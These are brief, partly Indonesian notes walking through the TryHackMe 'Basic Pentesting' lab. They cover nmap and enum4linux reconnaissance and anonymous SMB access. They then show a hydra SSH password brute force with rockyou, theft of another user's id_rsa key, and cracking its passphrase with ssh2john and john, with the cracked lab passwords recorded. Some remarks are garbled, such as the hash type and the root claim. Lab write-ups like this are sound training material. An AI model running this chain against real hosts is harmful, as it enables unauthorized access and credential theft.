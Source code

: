 # basic penetrasi
enum4linux
smbclient
hydra

## deploy
- 10.10.74.242

## praktek
- nmap -sC -sV -oN nmap/init 10.10.72.242
- scan
```
22
80
139
445
8009
8080
```
- enum4linux -a 10.10.74.242 | tee enum4linux.log
- smbclient //10.10.74.242/Anonymous
    - get staff.txt /home/ariafatah/tryhackme/staff.txt
- cat staff.tct
    - username = kay jan
- smbclient //10.10.74.242/ipc$
- hydra -l jan -P /usr/share/worldlist/rockyou.txt ssh://10.10.72.242
    - pass = armando
- ssh jan@10.10.74.242
    - uname -r => operation system
    - cat /etc/*issue
    - ls -al
    - cat /etc/passwd
        - kay: 1000 => is root
    - cd ../kay
        - ls -al
        - cd ./ssh
        - cat id_rsa
        - copy
    - paste in /tryhackme/ssh/id_rsa
        - cd ssh/id_rsa
    - locate ssh2j
    - /usr/share/john/ssh2john2.py id_rsa > hash.txt
    - cat hash.txt
        - check first line: sshng$1$
    - open linux shadow hash
        - $1$ is MD5
    - jhon hash.txt --worldlist=/usr/share/worldlist/rockyou.txt
        - pass = beeswax (id_rsa)
    - ssh -i id_rsa kay@10.10.74.242
        - beeswax
    - cat pass.bax
        - heresareallystrongpasswordthatfollowsthepasswordpolicy$$